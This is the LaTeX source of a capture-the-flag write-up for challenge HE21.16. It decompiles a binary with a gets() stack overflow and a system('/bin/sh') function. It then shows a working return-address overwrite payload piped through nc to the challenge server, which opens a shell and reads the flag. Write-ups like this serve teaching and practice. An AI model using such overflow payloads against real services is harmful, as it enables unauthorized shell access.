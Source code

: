 \documentclass[english,a4paper,nols,noindent]{tufte-handout}
\begin{document}
\noindent Executable ``lotl'' is provided.

\hypertarget{he21.16-solution}{%
\subsection{HE21.16 Solution}\label{he21.16-solution}}

\noindent The provided executable can be analysed using Ghidra and shows a main
function with a classic buffer overflow problem from using \verb+gets+:

\begin{verbatim}
undefined8 main(void)
{
  char pwn_me [32];
  
  ignore_me_init_buffering();
  ignore_me_init_signal();
  printf("Welcome! Please give me your name!\n> ");
  gets(pwn_me);
  printf("Hi %s, nice to meet you!\n",pwn_me);
  return 0;
}
\end{verbatim} 

So we can to overflow the buffer and jump to a proper place to get us a shell. 
Really interesting is the function \verb+profit+ at address \verb+0x0040086d+
\begin{verbatim}
void profit(void)
{
  system("/bin/sh");
  return;
}
\end{verbatim}

So it should be easy to construct the payload: load 32 bytes for the buffer, 8
bytes for the RBP and then 8 bytes for the RIP.  However, this does not work.
In the end, it turns out that the binary did not match the challenge and only a
padding of 32 bytes was needed:

\begin{verbatim} 
printf "AAAAAAAAAABBBBBBBBBBCCCCCCCCCCDD\x6d\x08\x40\x00\x00\x00\x00\x00\nls -l\ncat flag\n" |
nc 46.101.107.117 2102
Welcome! Please give me your name!
> Hi AAAAAAAAAABBBBBBBBBBCCCCCCCCCCDD@, nice to meet you!
total 36
-rwxrwxr-x 1 root root  8848 Mar  2 18:30 challenge1
-rw-rw-r-- 1 root root    40 Mar  2 18:30 flag
-rwxrwxr-x 1 root root 18744 Mar  2 18:30 ynetd
he2021{w3ll_th4t_w4s_4_s1mpl3_p4yl04d}
\end{verbatim} 

The flag is \verb+he2021{w3ll_th4t_w4s_4_s1mpl3_p4yl04d}+


\hypertarget{he21.17}{%
  \section{HE21.17 Digizzled}
  \label{he21.17}}
\begin{marginfigure}
    \includegraphics[width=50mm]{images/challenge17.jpg}
\end{marginfigure}
\end{document}
